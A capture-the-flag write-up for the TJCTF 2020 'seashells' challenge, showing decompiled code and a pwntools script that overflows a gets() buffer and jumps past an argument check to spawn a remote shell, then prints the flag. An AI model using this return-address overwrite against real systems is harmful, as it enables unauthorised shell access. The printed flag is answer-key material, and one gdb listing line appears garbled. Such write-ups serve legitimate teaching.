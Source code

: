 # Seashells

![](chall.png)

Yet another binary exploitation challenge. You can find the binary [here](seashells).

I decompiled it in [ghidra](https://ghidra-sre.org/) again, to have a look at the code.

```c
void shell(long param_1)
{
  if (param_1 == -0x2152350145414111) {
    system("/bin/sh");
  }
  return;
}

undefined8 main(void)
{
  int iVar1;
  char local_12 [10];

  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Welcome to Sally\'s Seashore Shell Shop");
  puts("Would you like a shell?");
  gets(local_12);
  iVar1 = strcasecmp(local_12,"yes");
  if (iVar1 == 0) {
    puts("sorry, we are out of stock");
  }
  else {
    puts("why are you even here?");
  }
  return 0;
}
```

Looks we have to overwrite the return address on the stack to return to the `shell` function. Because `gets` is used, we should have no trouble doing this.

I quickly found the padding needed to get to the return address using gdb, and I started making my script.

Decompiling the assembly code of `shell` in ghidra looks like this:

```
(gdb) disas shell
Dump of assembler code for function shell:
   0x00000000004006c7 <+0>:	push   %rbp
   0x00000000004006c8 <+1>:	mov    %rsp,%rbp
   0x00000000004006cb <+4>:	sub    $0x10,%rsp
   0x00000000004006cf <+8>:	mov    %rdi,-0x8(%rbp)
   0x00000000004006d3 <+12>:	movabs $0xdeadcafebabebeef,%rax
   0x00000000004006dd <+22>:	cmp    %rax,-0x8(%rbp)
   0x00000000004006e1 <+26>:	jne    0x4006ef <shell+40>
   0x00000000004006e3 <+28>:	lea    0x13e(%rip),%rdi        # 0x400828
   0x00000000004006ea <+35>:	callq  0x4005c0 <system@plt>
   0x00000000004006ef <+40>:	nop
   0x00000000004006f0 <+41>:	leaveq
   0x00000000004006f1 <+42>:	retq   
End of assembler dump.
(gdb)
```

I copied the hexadecimal address of the start of `shell` and put it in my script.

```python
from pwn import *

if 'rem' in sys.argv:
    r = remote('p1.tjctf.org', 8009)
elif 'file' in sys.argv:
    class getPayload:
        def __init__(self):
            self.payload = b''
        def send(self, oper):
            self.payload += oper
        def interactive(self):
            file = open('payload', 'wb')
            file.write(self.payload)
            file.close()
    r = getPayload()
else:
    r = process('./seashells')

padding = b'B9alaLbY4ealaLbY4e'

r.send(padding)
r.send(p64(0x4006c7))
r.send(b'\n')

r.interactive()
```

Problem is, how do we add the operand if the function? It has to be equal to `0xdeadcafebabebeef`, or else you won't get a shell!

I made my own [test script](test.c) with the call to the function in main to see how operands are handled.

Code:

```c
void shell(long param_1) {
  if (param_1 == -0x2152350145414111) {
    system("/bin/sh");
  }
  return;
}

int main() {
  shell(-0x2152350145414111);
}
```

Then I compiled the program. As you can see, all it does is launch a shell. That's exactly what we want to do on the server.

```
jordan@notyourcomputer:~/CTF-writeups/TJCTF2020/seashells$ ./test
$ ls
chall.png  payload  README.md  seashells  sol.py  test	test.c
$ cat test.c
void shell(long param_1) {
  if (param_1 == -0x2152350145414111) {
    system("/bin/sh");
  }
  return;
}

int main() {
  shell(-0x2152350145414111);
}
$ exit
jordan@notyourcomputer:~/CTF-writeups/TJCTF2020/seashells$
```

Here's the decompilation of `main` from gdb:

```
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000001166 <+0>:	push   %rbp   0x0000000000001139 <+4>:	sub    $0x10,%rsp
   0x0000000000001167 <+1>:	mov    %rsp,%rbp
   0x000000000000116a <+4>:	movabs $0xdeadcafebabebeef,%rdi
   0x0000000000001174 <+14>:	callq  0x1135 <shell>
   0x0000000000001179 <+19>:	mov    $0x0,%eax
   0x000000000000117e <+24>:	pop    %rbp
   0x000000000000117f <+25>:	retq   
End of assembler dump.
```

As you can see, in `main` the operand is stored in `rdi` before the function is executed. We only have control over the stack, not any registers, so it seems like we hit a dead end. It is not possible to overwrite the parameter of this function because of this.

I soon realized that I don't have to jump to a beginning of a function, I can jump to wherever I want!

Let's look at `shell` again in the seashells binary:

```
Dump of assembler code for function shell:
   0x00000000004006c7 <+0>:    push   %rbp
   0x00000000004006c8 <+1>:    mov    %rsp,%rbp
   0x00000000004006cb <+4>:	sub    $0x10,%rsp
```

The first two instructions are at the start of every function, and we don't need to worry about that. 16 bytes are also reserved on that stack, and that's not too important right now.

```
0x00000000004006cf <+8>:	mov    %rdi,-0x8(%rbp)
0x00000000004006d3 <+12>:	movabs $0xdeadcafebabebeef,%rax
0x00000000004006dd <+22>:	cmp    %rax,-0x8(%rbp)
0x00000000004006e1 <+26>:	jne    0x4006ef <shell+40>
```

There is the code that compares the argument with `0xdeadcafebabebeef`. We can't control the argument, so is there anyway to skip this?

```
0x00000000004006e3 <+28>:	lea    0x13e(%rip),%rdi        # 0x400828
0x00000000004006ea <+35>:	callq  0x4005c0 <system@plt>
```

And here's the shellcode! We can just simply jump to this address instead, that would make it much more simple.

So, in our python script, instead of writing the address of `shell` (0x4006c7), we can write the address of the actual shellcode! (0x4006e3) That makes much more sense!


```python
padding = b'B9alaLbY4ealaLbY4e'

r.send(padding)
r.send(p64(0x4006e3))
r.send(b'\n')

r.interactive()
```

```
$ py sol.py rem
[+] Opening connection to p1.tjctf.org on port 8009: Done
[*] Switching to interactive mode
Welcome to Sally's Seashore Shell Shop
Would you like a shell?
why are you even here?
$ ls
bin
flag.txt
lib
lib64
seashells
$ cat flag.txt
tjctf{she_s3lls_se4_sh3ll5}
$
```

Flag: `tjctf{she_s3lls_se4_sh3ll5}`
